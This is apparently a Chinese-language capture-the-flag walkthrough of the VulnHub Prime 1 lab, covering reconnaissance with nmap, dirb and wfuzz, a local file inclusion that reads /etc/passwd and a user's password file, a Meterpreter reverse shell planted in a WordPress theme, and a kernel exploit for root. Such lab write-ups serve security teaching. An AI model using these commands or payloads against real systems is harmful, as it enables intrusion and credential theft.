## 1. 靶场介绍
Prime 是 VulnHub 靶场环境中的一个入门级利用靶场。Prime 系列共有六个靶场，本次实战演示的是 2019 年发布的第一个环境。

---

## 2. 信息收集
首先，使用 `nmap` 对目标网段 `192.168.23.0` 进行探测，定位靶机并获取开放端口。

```bash
nmap -sV -p- 192.168.23.156
```



扫描结果显示目标靶机开放了 **22 (SSH)** 和 **80 (HTTP)** 端口。22 端口通常需要凭据，因此我们从 80 端口入手。

### 目录扫描
使用 `dirb` 扫描站点目录结构：

```bash
dirb http://192.168.23.156
```


扫描发现 `dev` 目录，且靶机运行着 **WordPress** 服务。

### 深入扫描

进入 `/dev` 目录看一眼，并没有什么东西。从根目录进一步探测，并使用 `-X` 参数指定搜索 `.txt` 和 `.php` 文件：

```bash
dirb http://192.168.23.156/ -X .txt,.php
```





扫描结果发现了三个文件：
*   `dev` (目录)
*   `secret.txt`
*   `image.php`
*   `location.txt`

查看 `secret.txt`，发现了一个提示（Hint）：需要寻找一个 `php` 文件，并通过参数传递来读取 `location.txt` 的内容。



---

## 3. 漏洞发现与利用

### 使用 wfuzz 模糊测试
利用 `wfuzz` 查找可能存在的参数：

```bash
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 http://192.168.23.156/index.php?FUZZ
```

*   **命令解释**：
    *   `-w`: 指定单词列表。
    *   `--hw 12`: 设置忽略响应头长度为 12 的返回，以筛选异常结果。
    *   `FUZZ`: 占位符。



测试发现 `file` 参数有效。将 `location.txt` 传给该参数，提示我们使用 `secrettier360` 参数并访问 `image.php`。



### 路径遍历/本地文件包含 (LFI)
利用 `image.php` 读取系统敏感文件：

```http
http://192.168.23.156/image.php?secrettier360=/etc/passwd
```



提示建议去 `/home/saket/` 目录下查找 `password.txt`：

```http
http://192.168.23.156/image.php?secrettier360=/home/saket/password.txt
```



获取到密码后，推测其为 WordPress 的管理员密码。根据 `/etc/passwd` 发现用户 `victor`，结合访问 `http://192.168.23.156/wordpress/wp-login`，成功登录后台。



---

## 4. 渗透与提权

### 反弹 Shell
在 WordPress 后台的 **Appearance -> Theme Editor** 中，修改 `secret.php` 文件，植入反弹 Shell 代码（使用 `msfvenom` 生成的 PHP Meterpreter 马）。

**监听准备 (Kali)：**
```bash
msfconsole
use exploit/multi/handler
set LHOST 172.19.15.230
set payload php/meterpreter/reverse_tcp
run
```

**触发反弹：**
访问植入代码的页面：`http://192.168.23.156/wordpress/wp-content/themes/twentynineteen/secret.php`。



### 系统提权
获取 Shell 后确认系统为 **Ubuntu 16.04**。使用 `searchsploit` 寻找提权漏洞：

```bash
searchsploit 16.04 ubuntu
# 找到 linux/local/45010.c
```

**编译并执行：**
由于编译环境 GLIBC 版本差异，使用 `-static` 参数进行静态编译：

```bash
gcc /usr/share/exploitdb/exploits/linux/local/45010.c -o 45010 -static
```

在 MSF 会话中上传并执行：

```bash
upload ~/45010 /tmp/45010
shell
cd /tmp
chmod +x 45010
./45010
whoami
# 输出: root
```

**提权成功！**

